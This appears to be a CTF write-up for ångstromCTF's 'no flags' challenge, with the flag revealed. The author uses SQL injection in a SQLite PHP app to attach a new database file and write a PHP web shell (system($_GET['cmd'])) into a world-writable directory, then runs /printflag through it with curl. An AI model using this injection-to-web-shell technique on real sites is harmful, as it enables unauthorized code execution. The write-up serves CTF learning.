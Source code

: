 #### Challenge:

After hearing about all of the cheating scandals, clam decided to conduct a sting operation for ångstromCTF. He made [a database of fake flags](https://no-flags.web.actf.co) to see who submits them. Unbeknownst to him, a spy managed to sneak a **real** flag into his database. Can you find it?

[Source](./index.php ":ignore"), [Dockerfile](./Dockerfile ":ignore")

---

#### Solution:

Investigating the given site, we found out that it contains `SQL injection` in  SQLite DB. After digging around and trying stuff like:

```sql
START'); INSERT INTO Flags SELECT name FROM sqlite_master;  INSERT INTO Flags VALUES ('END
```

I figured there are `"no flags"` in the DB. Looking closer at the provided `Dockerfile` it turns out that there is a program `/printflag` that we have to somehow run. Another useful thing to notice is that `everyone` has write access to folder `/var/www/html/abyss`. Trying our some payloads out of this handy  repository ([SQL Injection payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)), I was able to create `reverse PHP shell`:

```sql
START'); ATTACH DATABASE '/var/www/html/abyss/myawesomeuniquephpfile.php' AS myawesomeuniquephpfile; CREATE TABLE myawesomeuniquephpfile.pwn (dataz text); INSERT INTO myawesomeuniquephpfile.pwn (dataz) VALUES ('<?php system($_GET["cmd"]); ?>'); INSERT INTO Flags VALUES ('END
```

Then simply using it to call the `printflag` program (allowing for binary output) gives the flag:

```bash
curl "https://no-flags.web.actf.co/abyss/myawesomeuniquephpfile.php?cmd=/printflag" --output -
```

---

<details><summary>FLAG:</summary>

```
actf{why_do_people_still_use_php}
```

</details>
<br/>
